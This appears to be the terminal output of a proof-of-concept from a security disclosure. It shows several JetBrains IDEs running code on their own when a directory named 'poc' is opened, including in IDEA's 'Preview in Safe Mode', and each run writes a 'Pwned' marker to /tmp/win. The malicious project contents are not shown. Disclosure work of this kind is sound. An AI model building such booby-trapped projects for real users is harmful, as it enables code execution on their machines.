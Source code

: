 ```plain
% cat /tmp/win
cat: /tmp/win: No such file or directory

% idea poc

[... IDEA starts as an X application ...]
[... IDEA pauses during startup and asks "Trust and open Gradle Project?" ...]
[... Choose "Preview in Safe Mode" ...]

% cat /tmp/win
Pwned as uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo),44(video)

% rm /tmp/win

% cat /tmp/win
cat: /tmp/win: No such file or directory

% pycharm poc

[... PyCharm opens as an X application ...]

% cat /tmp/win
Pwned as uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo),44(video)

% rm /tmp/win

% cat /tmp/win
cat: /tmp/win: No such file or directory

% webstorm poc

[... WebStorm opens as an X application ...]

% cat /tmp/win
Pwned as uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo),44(video)

% rm /tmp/win

% cat /tmp/win
cat: /tmp/win: No such file or directory

% phpstorm poc

[... PhpStorm opens as an X application ...]

% cat /tmp/win
Pwned as uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo),44(video)

% rm /tmp/win

% cat /tmp/win
cat: /tmp/win: No such file or directory

% rider poc

[... Rider opens as an X application ...]

% cat /tmp/win
Pwned as uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo),44(video)

% rm /tmp/win

% cat /tmp/win
```